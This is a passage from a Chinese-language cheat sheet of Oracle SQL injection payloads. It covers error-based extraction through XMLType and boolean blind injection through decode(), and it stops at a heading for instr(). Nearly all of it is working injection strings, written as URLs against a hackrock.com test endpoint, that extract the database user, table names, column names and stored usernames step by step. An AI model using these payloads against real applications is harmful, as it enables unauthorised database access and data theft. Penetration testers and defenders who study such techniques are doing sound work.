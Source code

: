 ## XMLType ()

```sql
# 获取用户名
http://hackrock.com:8080/oracle/?id=1 and (select upper(XMLType(chr(60)%7c%7cchr(58)%7c%7c(select user from dual)%7c%7cchr(62))) from dual) is not null --+

# 获取表名
http://hackrock.com:8080/oracle/?id=1 and (select upper(XMLType(chr(60)%7c%7cchr(58)%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7cchr(62))) from dual) is not null --+

# 获取字段名
http://hackrock.com:8080/oracle/?id=1 and (select upper(XMLType(chr(60)%7c%7cchr(58)%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7cchr(62))) from dual) is not null --+

# 获取数据
http://hackrock.com:8080/oracle/?id=1 and (select upper(XMLType(chr(60)%7c%7cchr(58)%7c%7c(select username from test.users where rownum=1)%7c%7cchr(62))) from dual) is not null --+
```

# 布尔型盲注

## decode()

**decode(字段或字段的运算，值1，值2，值3）**

这个函数运行的结果是，当字段或字段的运算的值等于`值 1` 时，该函数返回`值 2`，否则返回` 值3`，当然值 1，值 2，值 3 也可以是表达式，这个函数使得某些 sql 语句简单了许多

```sql
# 判断是否是TEST用户
?id=1 and 1=(select decode(user,'TEST',1,0) from dual) --+

# 猜解当前用户
?id=1 and 1=(select decode(substr((select user from dual),1,1),'a',1,0) from dual) --+

# 猜解表名
?id=1 and 1=(select decode(substr((select table_name from all_tables where rownum=1 and owner='TEST'),1,1),'N',1,0) from dual) --+

# 猜解字段名
?id=1 and 1=(select decode(substr((select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1),1,1),'I',1,0) from dual) --+

# 猜解数据
?id=1 and 1=(select decode(substr((select username from test.users where rownum=1),1,1),'a',1,0) from dual) --+
```

## instr ()
